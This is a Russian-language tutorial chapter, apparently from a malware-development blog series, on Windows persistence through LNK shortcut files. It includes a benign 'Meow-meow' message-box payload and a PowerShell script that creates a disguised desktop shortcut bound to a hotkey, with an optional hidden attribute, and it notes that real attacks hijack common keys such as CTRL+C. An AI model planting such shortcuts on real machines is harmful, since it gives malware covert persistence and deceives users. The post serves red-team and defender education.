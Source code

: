 \newpage
\subsection{89. разработка вредоносного ПО: закрепление (persistence) - часть 23. LNK-файлы. Простой пример на Powershell.}

﷽

![pers](./images/112/2023-12-11_01-01_1.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через Windows LNK-файлы.     

### LNK

Согласно [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), `LNK`-файл представляет собой ярлык или "ссылку" в Windows, предоставляя ссылку на исходный файл, папку или приложение. Для обычных пользователей эти файлы имеют полезное значение, помогая организовать файлы и поддерживать порядок на рабочем пространстве. Однако с точки зрения атакующего `LNK`-файлы приобретают другое значение. Они использовались в различных документированных атаках APT-групп и, насколько мне известно, остаются актуальным вариантом для таких действий, как фишинг, установление закрепления и выполнение полезных нагрузок.     

Знаете ли вы, что ярлыки Windows можно регистрировать с помощью комбинации клавиш для их выполнения? Это основной трюк для закрепления вредоносного ПО в данном случае.    

### практический пример

Допустим, у нас есть "вредоносное" ПО. Как обычно, `meow-meow` messagebox приложение `hack.c`:    

```cpp
/*
hack.c
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем powershell-скрипт для создания `LNK`-файла со следующими свойствами:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

Как можно видеть, логика довольно простая. Мы просто создаем ярлык на рабочем столе, у которого задана комбинация клавиш: `CTRL+W`. Конечно, в реальных сценариях атаки это может быть `CTRL+C`, `CTRL+V` или `CTRL+P` и т. д.    

Например, если создать ярлык для `Paint`, у него нет назначенной комбинации клавиш:    

![pers](./images/112/2023-12-09_23-54.png){width="80%"}    

> Проводник Windows ограничивает поддержку ярлыков командами, начинающимися с CTRL+ALT. Дополнительные последовательности должны быть заданы программно через COM.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/112/2023-12-11_01-28.png){width="80%"}    

Для проверки корректности запускаем:    

```powershell
.\hack.exe
```

![pers](./images/112/2023-12-11_00-51.png){width="80%"}    

Теперь просто запускаем наш PowerShell-скрипт для закрепления:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

![pers](./images/112/2023-12-11_00-57.png){width="80%"}    

В результате `Meow LNK`-файл успешно создан.    

Если посмотреть его свойства, все в порядке:     

![pers](./images/112/2023-12-11_01-01.png){width="80%"}    

Наконец, просто запускаем его и пытаемся активировать комбинацию `CTRL+W`:     

![pers](./images/112/2023-12-11_01-02.png){width="80%"}    

![pers](./images/112/2023-12-11_01-05.png){width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/), а также вредоносным ПО, таким как [Emotet](https://attack.mitre.org/software/S0367/). По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

Огромная благодарность моему другу и коллеге [Антону Кузнецову](https://twitter.com/yrevichus), который напомнил мне об этой технике во время одной из своих удивительных презентаций.

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     
